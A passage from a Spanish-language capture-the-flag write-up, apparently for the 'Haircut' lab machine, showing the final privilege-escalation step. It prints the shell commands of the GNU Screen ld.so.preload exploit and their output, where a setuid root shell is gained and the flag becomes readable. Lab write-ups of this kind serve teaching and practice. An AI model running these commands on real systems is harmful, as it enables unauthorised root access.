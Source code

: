 Ahora ejecutamos los siguientes comando de acuerdo con lo que indica el script:

```bash
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ ls -l /tmp/rootshell 
-rwsr-xr-x 1 root root 16816 Oct 19 04:36 /tmp/rootshell
www-data@haircut:/etc$
www-data@haircut:/etc$ /tmp/rootshell
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
